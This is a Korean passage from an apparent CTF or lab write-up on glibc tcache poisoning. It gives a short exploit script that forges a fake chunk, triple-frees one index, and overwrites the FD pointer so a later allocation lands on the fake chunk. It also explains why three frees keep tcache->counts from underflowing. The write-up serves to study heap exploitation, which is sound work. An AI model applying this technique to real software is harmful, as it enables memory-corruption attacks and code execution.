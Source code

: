 - FD를 Fake Chunk의 주소 값으로 조작하여 첫 번째 tcache가 Fake chunk의 주소 값을 가리키는 것을 확인할 수 있다.
- 두 번 할당시 해당 영역에 할당 가능하다.

```cpp
#fake chunk
alloc(0x38, p64(0)+p64(0xd1))
alloc(0x10, "AAAA")

for i in range(0, 2):
    alloc(0x78, "AAAA")

free(0)
free(0)
free(0)

# 0xd1(size) -> Fake chunk
alloc(0x38, p8(0x70))
alloc(0x38, "A")
alloc(0x38, "BBBB")
```

![./6_1.png](./6_1.png)

- 포인터 배열 6번째 인덱스에 Fake chunk가 할당된 모습을 확인할 수 있다.
- 해제를 세 번 한 이유는 `tcache->counts` 가 underflow 되는 것을 막기 위해서이다.
- free시 tcache→counts++
- malloc시 tcache→counts--
- 만약 할당 과정에서 두 개의 tcache를 사용하게 된다면 다음 할당 과정에서 음수 처리가 되지 않기 때문에  255 변환되어 underflow되어 tcache를 사용하지 않는다.
- tcache는 7개 bin만을 관리하기 때문이다.
